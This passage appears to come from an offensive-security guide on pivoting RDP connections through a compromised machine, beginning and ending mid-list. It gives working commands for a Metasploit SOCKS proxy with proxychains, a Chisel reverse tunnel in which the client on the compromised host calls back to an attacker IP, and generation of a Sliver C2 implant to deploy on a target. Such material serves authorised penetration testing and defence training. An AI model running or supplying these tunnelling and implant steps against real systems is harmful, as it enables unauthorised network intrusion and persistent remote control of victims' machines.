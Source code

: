 2. **Create a Reverse Proxy:**
   Use the `auxiliary/server/socks_proxy` module to create a SOCKS proxy through the compromised machine.
   ```bash
   use auxiliary/server/socks_proxy
   set SRVHOST 127.0.0.1
   set SRVPORT 1080
   run
   ```

3. **Configure ProxyChains:**
   Edit the `proxychains.conf` file to include the Metasploit proxy.
   ```bash
   socks4 127.0.0.1 1080
   ```

4. **Connect to RDP via ProxyChains:**
   Use `proxychains` to route your RDP connection through the SOCKS proxy.
   ```bash
   proxychains mstsc /v:<target_ip>
   ```

#### **Chisel**

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH.

**Setting Up Chisel for Reverse Proxying:**

1. **On the Attacker Machine:**
   Start Chisel in server mode.
   ```bash
   ./chisel server --reverse --port 8080
   ```

2. **On the Compromised Machine:**
   Download and run Chisel in client mode.
   ```bash
   ./chisel client <attacker_ip>:8080 R:3389:<target_ip>:3389
   ```

3. **Connect via RDP:**
   Now, connect using `mstsc` or any other RDP client to `127.0.0.1:3389`.

#### **Sliver**

Sliver is an open-source C2 framework that supports multi-user environments and offers reverse proxying capabilities.

**Setting Up a Reverse Proxy with Sliver:**

1. **Set Up a Listener:**
   Create a listener in Sliver for the target platform.
   ```bash
   sliver > generate -o windows -f sliver.exe
   ```

2. **Deploy and Connect:**
   Deploy the generated binary to the target machine and run it to connect back to the Sliver C2 server.
